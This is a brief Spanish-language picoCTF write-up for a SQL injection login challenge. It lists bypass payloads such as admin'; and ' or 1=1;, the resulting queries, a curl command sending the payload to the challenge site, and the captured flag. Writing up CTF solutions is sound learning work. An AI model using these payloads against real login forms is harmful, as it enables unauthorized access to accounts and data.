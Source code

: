 # Objetivo 
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849


# Solución 

```
username: admin';
password: admin
SQL query: SELECT * FROM users WHERE name='admin';' AND password='admin'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}


---------------------------------------------------------------------

jordanz28@LAPTOP-UM00GHQE:~$
jordanz28@LAPTOP-UM00GHQE:~$ curl https://jupiter.challenges.picoctf.org/problem/52849/login.php -d "username=admin';&pa
ssword=admindebug=1"
<h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_fa983901}</p>jordanz28@LAPTOP-UM00GHQE:~$


```

# Notas 

Repetimos los pasos del pasado 
volvemos a cambiar el valor 0 1 para poder avanzar luego de identificar que se puede hacer lo del reto pasado 
intentamos primor lo de pasado vemos que no paso a hora cambiamos or 1=1 por un admin';
para ver si funciona 

username: ' or 1=1;
password: 1234
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='1234'

username: admin';
password: 1234
SQL query: SELECT * FROM users WHERE name= admin';  AND password='1234'

------------------------------------------------------------------------
username: admin';
password: admin
SQL query: SELECT * FROM users WHERE name='admin';' AND password='admin'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}